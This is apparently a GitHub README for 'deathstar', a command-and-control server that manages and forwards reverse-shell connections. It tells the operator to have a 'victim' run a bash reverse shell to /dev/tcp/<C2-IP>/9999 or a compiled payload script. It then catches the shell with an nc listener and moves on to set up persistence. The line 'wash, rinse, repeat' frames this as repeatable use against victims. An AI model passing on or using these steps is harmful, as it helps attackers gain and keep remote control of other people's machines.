 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.


![screen](https://github.com/user-attachments/assets/7de184fa-cd0b-4cbf-b701-9f505a77cb2a)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

or 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

or

`./stardestroyer.py`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

or

On the terminal, list the connections.

Select `2)` to forward.

Specify the `ID` of the `VICTIM` you'd like to forward.

Then, type the IP of your `LISTENING` device.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

